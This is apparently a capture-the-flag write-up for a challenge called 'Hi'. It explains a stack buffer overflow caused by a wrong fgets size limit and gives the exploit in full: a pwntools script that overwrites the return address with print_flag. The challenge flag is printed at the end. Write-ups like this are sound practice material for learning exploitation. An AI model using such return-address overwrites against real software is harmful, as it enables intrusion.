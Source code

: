 # Hi
### 📄 Description
Can you retrieve the flag?

## 🔑 Solution
It's the same as the previous exercise, it uses `fgets` instead of gets but the provided character limit is incorrect (it should be 32).

```python
from pwn import *

context.binary = "./hi"

p = process()
p.sendline(b"A" * 32 + b"a" * 8 + p64(context.binary.functions["print_flag"].address))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
ccit{hi_i_am_a_flag}
```